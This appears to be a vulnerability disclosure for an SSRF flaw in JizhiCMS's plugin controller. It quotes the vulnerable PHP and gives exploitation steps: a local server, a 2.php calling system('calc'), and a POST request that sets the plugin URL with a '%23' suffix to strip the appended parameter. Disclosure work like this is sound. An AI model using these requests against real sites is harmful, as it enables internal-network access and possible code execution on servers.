


### Vulnerable File: `app\admin\c\PluginsController.php` Key Code Analysis

```php
class PluginsController extends CommonController
{
    public function index(){
        // Check if the update URL is accessible
        $webapi = $this->webconf['plugins_config'];
        if(!$webapi){
            $webapi = 'http://api.jizhicms.cn/plugins.php';
            if(!M('sysconfig')->find(['field'=>'plugins_config'])){
                M('sysconfig')->add(['title'=>JZLANG('Plugin Configuration'),'field'=>'plugins_config','type'=>2,'data'=>$webapi,'typeid'=>0]);
                setCache('webconfig',null);
            }
        }
        if($this->frparam('set')){
            if($this->admin['isadmin']!=1){
                JsonReturn(['code'=>1,'msg'=>JZLANG('Only super administrators can configure this!')]);
            }
            $webapi = $this->frparam('webapi',1);
            M('sysconfig')->update(['field'=>'plugins_config'],['data'=>$webapi]);
            setCache('webconfig',null);
            JsonReturn(['code'=>0,'msg'=>'Configuration successful!']);
        }
        $this->webapi = $webapi;
        $api = $webapi.'?version='.$this->webconf['web_version'];
        $ch = curl_init();
        $timeout = 5;
        curl_setopt($ch,CURLOPT_FOLLOWLOCATION,1);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
        curl_setopt($ch, CURLOPT_HEADER, false);
        curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, $timeout);
        curl_setopt($ch,CURLOPT_URL,$api);
        $res = curl_exec($ch);
        $httpcode = curl_getinfo($ch,CURLINFO_HTTP_CODE);
        curl_close($ch);
        if($httpcode==200){
            $isok = true;
            $res1 = json_decode($res,1);
            if($res1['code']!=0){
                $isok = false;
            }else{
                $allplugins = $res1['data'];
            }
        }else{
            $isok = false;
        }
    }
}
```

### Vulnerability Analysis

The code allows setting the `webapi` variable through the following block:
```php
if($this->frparam('set')){
    if($this->admin['isadmin']!=1){
        JsonReturn(['code'=>1,'msg'=>JZLANG('Only super administrators can configure this!')]);
    }
    $webapi = $this->frparam('webapi',1);
    M('sysconfig')->update(['field'=>'plugins_config'],['data'=>$webapi]);
    setCache('webconfig',null);
    JsonReturn(['code'=>0,'msg'=>'Configuration successful!']);
}
```

Later, the `webapi` variable is concatenated with `?version=`, making it possible to inject a `#` character to comment out the appended parameters:
```php
$this->webapi = $webapi;
$api = $webapi.'?version='.$this->webconf['web_version'];
```

### Exploitation

To exploit the vulnerability, a local web server is set up to simulate an internal web service:

1. Start a local web server:
   ```bash
   php -S 127.0.0.1:8999
   ```

2. Create a `2.php` file on the server:
   ```php
   <?php
   system('calc');
   ```
   This will execute the `calc` (calculator) command upon access.

3. Send a request to set the `webapi` variable:
   ```http
   POST /index.php/admins/Plugins/index.html

   set=1&webapi=http://127.0.0.1:8999/2.php%23
   ```
   

4. Trigger the SSRF vulnerability by accessing the following URL:
   ```http
   GET /index.php/admins/Plugins/index.html
   ```

### Result

As shown below, the local web service successfully receives the request, and the `2.php` file is executed, launching the calculator application (`calc`):
